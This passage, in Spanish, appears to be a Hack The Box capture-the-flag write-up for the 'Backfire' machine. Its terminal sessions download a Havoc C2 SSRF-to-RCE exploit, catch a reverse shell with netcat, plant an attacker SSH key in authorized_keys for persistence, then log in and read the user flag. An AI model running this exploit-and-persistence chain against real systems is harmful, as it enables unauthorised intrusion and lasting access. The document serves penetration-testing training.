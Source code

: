 ```terminal
/home/kali/Documents/htb/machines/backfire:-$ wget https://gist.githubusercontent.com/pich4ya/bda16a3b2104bea411612f20d536174b/raw/707b4ca24c0ced048497da4ea645caf788632499/havoc_ssrf2rce.py

/home/kali/Documents/htb/machines/backfire:-$ nc -lnvp 443
	listening on [any] 443 ...
```

Antes de lanzar el exploit, genero una clave SSH ed25519. Esto me permite introducir mi clave pública dentro de `.ssh/authorized_keys` durante la sesión comprometida, y así garantizar acceso persistente por SSH al usuario victima sin depender nuevamente de la vulnerabilidad ni del listener.

```terminal
/home/kali/Documents/htb/machines/backfire:-$ ssh-keygen -t ed25519 -f ~/.ssh/id_ed25519
Generating public/private ed25519 key pair.
Enter passphrase (empty for no passphrase): $tr0ngP@$$w0rd123
Enter same passphrase again: $tr0ngP@$$w0rd123

/home/kali/Documents/htb/machines/backfire:-$ cat /home/kali/.ssh/id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOsyjZH2HTiLb61fHRWAVsuQBhOS7YslTji85AO3Vfkv kali@k4li
```

El exploit se ejecuta especificando el objetivo, la IP atacante y las credenciales de operador del teamserver. Una vez activa la reverse shell, inserto la clave pública en el archivo `authorized_keys` de `ilya`.

```terminal
(venv)-/home/kali/Documents/htb/machines/backfire:-$ python3 havoc_ssrf2rce.py -t https://10.10.11.49:443 -l 10.10.16.108 --c2user ilya --c2pass 'CobaltStr1keSuckz!'

	... connect to [10.10.16.108] from (UNKNOWN) [10.10.11.49] 58924

ilya@backfire:~/Havoc/payloads/Demon$ id
uid=1000(ilya) gid=1000(ilya) groups=1000(ilya),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)

ilya@backfire:~/Havoc/payloads/Demon$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOsyjZH2HTiLb61fHRWAVsuQBhOS7YslTji85AO3Vfkv kali@k4li' | tee -a /home/ilya/.ssh/authorized_keys
```

Luego, me conecto directamente por SSH con la contraseña generada, logrando acceder a la máquina como el usuario `ilya`.

```terminal
/home/kali/Documents/htb/machines/backfire:-$ ssh ilya@10.10.11.49
Enter passphrase for key '/home/kali/.ssh/id_ed25519': $tr0ngP@$$w0rd123

ilya@backfire:~$ id
uid=1000(ilya) gid=1000(ilya) groups=1000(ilya),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)

ilya@backfire:~$ cat user.txt
```

---
## Lateral Movement
